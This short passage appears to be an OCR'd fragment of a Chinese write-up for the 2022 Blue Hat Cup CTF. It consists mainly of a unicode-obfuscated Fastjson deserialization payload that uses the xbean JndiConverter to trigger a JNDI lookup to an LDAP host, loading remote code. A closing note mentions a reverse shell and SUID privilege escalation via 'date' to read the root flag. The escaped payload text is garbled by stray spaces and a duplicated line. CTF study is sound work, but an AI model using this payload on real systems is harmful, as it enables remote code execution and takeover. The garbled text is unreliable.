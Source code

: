 ```
{"\u0040\u0074\u0079\u0070\u0065":"\u006f\u0072\u0067\u002e\u0061\u0070\u 0061\u0063\u0068\u0065\u002e\u0078\u0062\u0065\u0061\u006e\u002e\u0070\u007 2\u006f\u0070\u0065\u0072\u0074\u0079\u0065\u0064\u0069\u0074\u006f\u0072\u 002e\u004a\u006e\u0064\u0069\u0043\u006f\u006e\u0076\u0065\u0072\u0074\u006
002e\u004a\u006e\u0064\u0069\u0043\u006f\u006e\u0076\u0065\u0072\u0074\u006 5\u0072","asText":"unicode(ldap://xxx/o=tomcat))"}
```

![Untitled](2022蓝帽杯%20attachments/Untitled%202.png)

反弹shell后，suid提权date,查看/root/flag.txt

![Untitled](2022蓝帽杯%20attachments/Untitled%203.png)
